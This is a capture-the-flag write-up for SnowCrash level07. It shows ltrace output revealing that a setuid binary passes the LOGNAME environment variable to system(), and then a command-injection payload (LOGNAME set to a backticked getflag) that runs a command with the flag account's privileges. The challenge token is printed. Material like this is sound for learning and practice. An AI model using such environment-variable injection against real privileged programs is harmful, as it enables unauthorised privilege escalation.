 # Start

```sh
level07@SnowCrash:~$ ll
[...]
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07*
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile*
```
>> We have an executabe with effective user : flag07

```sh
level07@SnowCrash:~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                             = 2007
geteuid()                                                                             = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                   = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                   = 0
getenv("LOGNAME")                                                                     = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff69, 0xb7e5ee55, 0xb7fed280)                   = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                = 0
+++ exited (status 0) +++
```
>> it get LOGNAME, print something with asprintf and print level07 with echo

# Exploit

If we exec with adding value to LOGNAME :

```sh
level07@SnowCrash:~$ LOGNAME=hkovac ./level07 
hkovac
```
>> print LOGNAME's value

so :

```sh
level07@SnowCrash:~$ LOGNAME="\`getflag\`" ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```